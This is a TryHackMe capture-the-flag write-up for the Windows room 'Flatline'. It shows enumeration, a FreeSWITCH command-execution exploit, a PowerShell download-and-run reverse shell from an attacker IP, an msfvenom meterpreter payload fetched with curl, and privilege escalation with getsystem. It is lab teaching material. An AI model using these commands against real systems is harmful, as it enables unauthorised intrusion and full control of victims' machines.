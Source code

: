 ```yaml
---
title: "TryHackMe - Flatline"
author: Nasrallah
description: ""
date: 2022-12-03 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, windows, easy]
img_path: /assets/img/tryhackme/flatline
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Flatline](https://tryhackme.com/room/flatline) from [TryHackMe](https://tryhackme.com).

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 -Pn {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

- -Pn: Skip host discovery.

```terminal
Nmap scan report for 10.10.16.147 (10.10.16.147)
Host is up (0.065s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
3389/tcp open  ssl/ms-wbt-server?
|_ssl-date: 2022-10-31T07:14:54+00:00; -34m01s from scanner time.
| ssl-cert: Subject: commonName=WIN-EOM4PK0578N
| Not valid before: 2022-10-30T07:05:55
|_Not valid after:  2023-05-01T07:05:55
| rdp-ntlm-info: 
|   Target_Name: WIN-EOM4PK0578N
|   NetBIOS_Domain_Name: WIN-EOM4PK0578N
|   NetBIOS_Computer_Name: WIN-EOM4PK0578N
|   DNS_Domain_Name: WIN-EOM4PK0578N
|   DNS_Computer_Name: WIN-EOM4PK0578N
|   Product_Version: 10.0.17763
|_  System_Time: 2022-10-31T07:14:48+00:00
8021/tcp open  freeswitch-event   FreeSWITCH mod_event_socket
```

We found two open ports. Port 3389 is running RDP and port 8021 is running freeswitch which is a free and open-source software defined telecommunications stack for real-time communication, WebRTC, telecommunications, video, and Voice over Internet Protocol.

It also come with mod_event_socket which is a TCP based interface to control FreeSWITCH and is enabled by default.

Searching for available exlploits in this service we find the following.

```terminal
$ searchsploit freeswitch                          
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
FreeSWITCH - Event Socket Command Execution (Metasploit)                                                                   | multiple/remote/47698.rb
FreeSWITCH 1.10.1 - Command Execution                                                                                      | windows/remote/47799.txt
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

There is a command execution exploit, let's copy it with `searchsploit -m windows/remote/47799.txt` and change the name to `exploit.py`.

Let's run the exploit

![](1.png)

I had to run the exploit multiple time before it gave me a result, not really sure why is that.

# **Foothold**

Let's now get a reverse shell by using this [script](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1). Download it and serve it with an http server(python3 -m http.server).

Now set up a listener and on the attacking machine with `nc -lvnp 9001`.

Now we need to execute the following command:

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://10.18.0.188/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.18.0.188 -Port 9001
```

![](2.png)


# **Privilege Escalation**

For this part, I decided to get a meterpreter shell. I generated a payload using the following command.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.18.0.188 lport=7777 -f exe > meta.exe
```

Then we serve the file with python http server.

After that we upload the file the compromised machine using the following command:

```shell
curl http://10.18.0.188/meta.exe -o meta.exe
```

![](3.png)

Now we go setup a multi handler in metasploit and execute the meta.exe file with `./meta.exe` to get a meterpreter shell.

![](5.png)

We can escalate our privileges to administrator by executing `getsystem`.

![](4.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
